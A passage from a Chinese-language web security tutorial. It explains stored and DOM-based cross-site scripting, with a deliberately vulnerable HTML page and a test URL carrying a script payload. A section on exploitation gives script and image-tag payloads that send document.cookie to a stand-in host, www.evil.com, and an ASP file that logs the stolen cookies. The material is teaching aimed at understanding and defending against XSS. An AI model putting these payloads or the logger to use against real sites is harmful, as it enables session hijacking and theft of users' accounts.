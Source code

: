 代碼只對一些空白符、特殊符號、反斜槓進行了刪除或轉義，沒有做 XSS 的過濾和檢查，且存儲在數據庫中，明顯存在存儲型 XSS 漏洞。

### DOM XSS

傳統的 XSS 漏洞一般出現在服務器端代碼中，而 DOM-Based XSS 是基於 DOM 文檔對象模型的一種漏洞，所以，受客戶端瀏覽器的腳本代碼所影響。客戶端 JavaScript 可以訪問瀏覽器的 DOM 文本對象模型，因此能夠決定用於加載當前頁面的 URL。換句話說，客戶端的腳本程序可以通過 DOM 動態地檢查和修改頁面內容，它不依賴於服務器端的數據，而從客戶端獲得 DOM 中的數據（如從 URL 中提取數據）並在本地執行。另一方面，瀏覽器用戶可以操縱 DOM 中的一些對象，例如 URL、location 等。用戶在客戶端輸入的數據如果包含了惡意 JavaScript 腳本，而這些腳本沒有經過適當的過濾和消毒，那麼應用程序就可能受到基於 DOM 的 XSS 攻擊。

HTML 代碼：

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```

將代碼保存在 domXSS.html 中，瀏覽器訪問：

```
http://127.0.0.1/domXSS.html?a=<script>alert('XSS')</script>
```

即可觸發 XSS 漏洞。

## XSS 利用方式

### Cookies 竊取

攻擊者可以使用以下代碼獲取客戶端的 Cookies 信息：

```html
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

在遠程服務器上，有一個接受和記錄 Cookies 信息的文件，示例如下：

```asp
<%
  msg=Request.ServerVariables("QUERY_STRING")
  testfile=Server.MapPath("cookie.txt")
  set fs=server.CreateObject("Scripting.filesystemobject")
  set thisfile=fs.OpenTextFile(testfile,8,True,0)
  thisfile.Writeline(""&msg& "")
  thisfile.close
  set fs=nothing
%>
```
